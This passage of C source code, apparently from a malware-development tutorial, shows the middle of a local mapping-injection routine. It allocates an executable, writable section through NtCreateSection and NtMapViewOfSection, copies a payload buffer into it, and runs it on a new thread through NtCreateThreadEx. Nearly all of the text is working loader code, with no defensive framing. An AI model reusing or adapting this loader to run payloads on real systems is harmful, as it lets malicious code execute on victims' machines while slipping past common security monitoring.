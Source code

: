 ```c
	// Allocating local map view 
	
	if ((STATUS = NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	if ((STATUS = NtMapViewOfSection(hSection, (HANDLE)-1, &pAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sViewSize);

//--------------------------------------------------------------------------	
	
	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pAddress);

//--------------------------------------------------------------------------

	// Executing the payload via thread creation

	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
	if ((STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

//--------------------------------------------------------------------------

	// Unmapping the local view - only when the payload is done executing
	if ((STATUS = NtUnmapViewOfSection((HANDLE)-1, pAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	// Closing the section handle
	if ((STATUS = NtClose(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}
```

